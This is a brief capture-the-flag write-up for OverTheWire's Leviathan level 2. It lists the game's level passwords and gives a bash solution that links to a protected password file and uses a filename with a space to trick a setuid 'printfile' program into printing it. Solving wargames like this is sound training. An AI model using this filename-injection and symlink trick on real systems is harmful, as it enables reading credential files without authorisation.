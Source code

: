 ### Leviathan Level 2

[Leviathan2](http://overthewire.org/wargames/leviathan/leviathan2.html)

**Username**: *leviathan2*

**Password**: *ougahZi8Ta*


### Solution
```bash
mkdir /tmp/maldevel_test
cd /tmp/maldevel_test
ln -s /etc/leviathan_pass/leviathan3 ./file
touch file\ asdf
cd ~
./printfile /tmp/maldevel_test/file\ asdf
```

#### Credentials for Level 3

**Username**: *leviathan3*

**Password**: *Ahdiemoo1j*

